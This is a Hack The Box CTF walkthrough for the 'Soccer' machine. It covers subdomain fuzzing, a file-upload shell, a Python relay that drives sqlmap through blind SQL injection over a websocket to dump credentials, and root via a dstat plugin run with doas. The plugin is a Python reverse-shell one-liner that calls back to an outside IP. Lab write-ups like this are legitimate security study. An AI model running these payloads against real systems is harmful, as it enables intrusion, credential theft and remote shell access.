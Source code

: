 ```yaml
---
title: Soccer
date: 2023-01-01 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [web, wfuzz, websocket, http server, doas, dstat, linux]
---
```


Starting with nmap scans we have a few open ports 22 ssh and port 80 webserver that we need to add to /etc/hosts soccer.htb.

start enumerating the host scanning for subdomains with wfuzz and subdirectories with feroxbuster

- `wfuzz -c -w /usr/share/seclists/Discovers/DNS/bitquard-subdomains-top100000.txt - 'http://soccer.htb' -H "Host: FUZZ.soccer.htb" --hc 301,302`
- `feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php`

During scans we find a "<a href="https://tinyfilemanager.github.io/">Tiny File Manager</a>" 

Checking the github the default credentials do work, we can upload a shell here?

`/var/www/html/tiny/uploads` has permissions to upload and we get a callback as www-data after setting up a listener.

during a linpeas scan we end up finding `soc-player.soccer.htb` which is another site with a login...

Checking the source on the /check page wqe find a websocket. I've literally never had to deal with or know how to deal with this but I found some help? https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh

```
curl -i -s -k -X $'GET' \
    -H $'Host: soc-player.soccer.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://soc-player.soccer.htb/check' -H $'Upgrade-Insecure-Requests: 1' -H $'If-None-Match: W/\"12e9-jepY6GiJmK+3NHavK46gs9vINZM\"' \
    -b $'connect.sid=s%3AKI5S00CPO6HI-LF23kQn6GqHwWQxa2Nh.ljAb1hQUlzyU6qz4iPBlLwBKc5n4UNxapAIi%2Fhb0%2Bik' \
    $'http://soc-player.soccer.htb/check'
```

Inspecting the check page we find a websocket

```
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
```

read more about exploiting this <a href="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html">here</a>.

We start off by hosting a http.server that will connect to the websocket so we can send through requests to dump the database.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- run sqlmap and dump the database `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

- dump the soccer_db `sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump`

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- login via ssh

- `find / -type f -perm -u=s 2>/dev/null`

We see doas here. check the config for doas

- `find / -name *doas* 2>/dev/null`

`permit nopass player as root cmd /usr/bin/dstat`

this mean we can use doas to execute dstat as root 

dstat is a tool for generating system resouce statustics it allows users to create custom plugins and execute them by adding the `--myplugin` options.

find the stat directory

- `find / -type d -name dstat 2>/dev/null`

create a plugin in the directory

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

dstat will recognize pluds under this directory. we can check if the plugin has been added by executing `dstat --list | grep oskar`

after setting up a listener we recieve a root shell.


    

